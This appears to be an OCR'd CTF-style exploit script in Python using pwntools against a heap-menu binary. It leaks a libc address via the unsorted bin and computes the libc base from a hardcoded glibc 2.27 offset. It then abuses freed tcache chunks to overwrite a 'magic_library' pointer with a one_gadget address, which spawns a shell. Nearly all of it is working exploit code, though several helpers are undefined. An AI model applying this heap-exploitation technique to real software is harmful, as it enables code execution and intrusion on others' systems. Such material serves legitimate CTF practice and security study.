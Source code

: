 ```python
sl = lambda s : r.sendline(s)
sd = lambda s : r.send(s)
rc = lambda n : r.recv(n)
rl = lambda: r.recvline()
ru = lambda s : r.recvuntil(s)
ti = lambda: r.interactive()
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
bhex = lambda b: int(b.decode(), 16)
ru7f = lambda: r.recvuntil(b'\x7f').ljust(8, b'\x00')
dbg = lambda: gdb.attach(r)
dbgstart = lambda script=scripts: gdb.attach(r, gdbscript=script)


def add(size):
  sla('>> ', '1')
  sla('size:\n', str(size))

def edit(idx,data):
  sla('>> ', '2')
  sla('index:\n', str(idx))
  sa('content:\n', data)

def free(idx):
  sla('>> ', '3')
  sla('index:\n', str(idx))

def show(idx):
  sla('>> ', '4')
  sla('index:\n', str(idx))

#double free
add(0x500) # 0 only > 0x500 can in unsort bin?
add(0x8) # 1 -> in tcache
add(0x8) # 2
free(0) # [0]
show(0)
# dbg()

ru('OUTPUT: ')
leak = u64(ru7f())
# leak = rl()
print("this is leak",hex(leak))
# 2.27 leak 
libc.address = leak - 0x3ebca0
logbase()

free(1) # [1,0]
free(2) # [2,1,0] -> double free on idx 1
logleak("magic_library",exe.sym['magic_library'])


edit(2, p64(exe.sym['magic_library']))
add(0x8) # 3 return 2 [1,0]


add(0x8) # 4 return 1 [0]
onegadgets = one_gadget(libc.path, libc.address)
logleak("one_gadget",onegadgets[1])

edit(4, p64(onegadgets[1]))

dbg()

```